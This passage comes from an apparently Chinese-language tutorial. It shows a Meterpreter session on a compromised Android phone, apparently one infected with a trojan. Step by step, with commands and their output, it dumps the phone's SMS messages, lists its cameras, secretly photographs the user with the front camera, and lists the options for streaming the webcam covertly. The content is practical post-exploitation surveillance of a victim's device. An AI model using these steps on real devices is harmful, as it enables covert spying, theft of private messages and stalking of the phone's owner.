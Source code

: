 
##### 获取手机短信

```
meterpreter > dump_sms
[*] Fetching 6 sms messages
[*] SMS messages saved to: sms_dump_20200917195455.txt
meterpreter >
```
在电脑目录多了一个sms_dump_20200917195455.txt的文件，打开如图所示
![image](http://lbz-blog.test.upcdn.net/post/%E6%9C%A8%E9%A9%AC-%E7%9F%AD%E4%BF%A1.png)


##### 拍照

获取摄像头列表

```
meterpreter > webcam_list
1: Back Camera
2: Front Camera
meterpreter >
```
表示有两个摄像头，前置和后置，如果想要用前置摄像头拍

```
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /Users/laibinzhi/VEduPltE.jpeg
meterpreter >
```
在电脑目录多了一个VEduPltE.jpeg的图片，打开如图所示
![image](http://lbz-blog.test.upcdn.net/post/%E6%9C%A8%E9%A9%AC-%E5%81%B7%E6%8B%8D.jpeg)

同样的，后置摄像头就把2改为1

##### 录像

支持实时的一帧帧的照片组成的视频,下面是一些配置参数


```

OPTIONS:

    -d <opt>  The stream duration in seconds (Default: 1800)
    -h        Help Banner
    -i <opt>  The index of the webcam to use (Default: 1)
    -q <opt>  The stream quality (Default: '50')
    -s <opt>  The stream file path (Default: 'znKDlLHK.jpeg')
    -t <opt>  The stream player path (Default: AXrBlNIK.html)
    -v <opt>  Automatically view the stream (Default: 'true')


```
